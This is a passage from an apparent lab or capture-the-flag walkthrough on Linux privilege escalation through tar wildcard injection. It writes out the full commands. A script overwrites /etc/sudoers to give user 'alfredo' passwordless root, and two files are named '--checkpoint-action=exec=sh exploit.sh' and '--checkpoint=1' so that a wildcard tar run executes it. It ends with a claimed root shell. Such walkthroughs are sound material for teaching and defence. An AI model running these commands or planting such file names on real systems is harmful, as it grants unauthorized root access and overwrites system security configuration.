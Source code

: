 ```shell
 --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

Next:
Create this files in the current directory
`echo "echo 'alfredo ALL=(root) NOPASSWD: ALL' > /etc/sudoers" > exploit.sh`

`echo "" > "--checkpoint-action=exec=sh exploit.sh"`

`echo "" > '--checkpoint=1'`


<img width="600" alt="exploits" src="https://gist.github.com/assets/116626767/6e953048-0c45-4ce5-b96b-0070b4fd2bb7">

This injects an entry into the `sudoers` file that allows the user `alfredo` use sudo without a password.

Now running `sudo su` works like a charm and we are root.

<img width="600" alt="root" src="https://gist.github.com/assets/116626767/1d5043d7-16c0-4b1a-ae93-183dd7673ac5">

## Resources


- [tar wildcard](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)
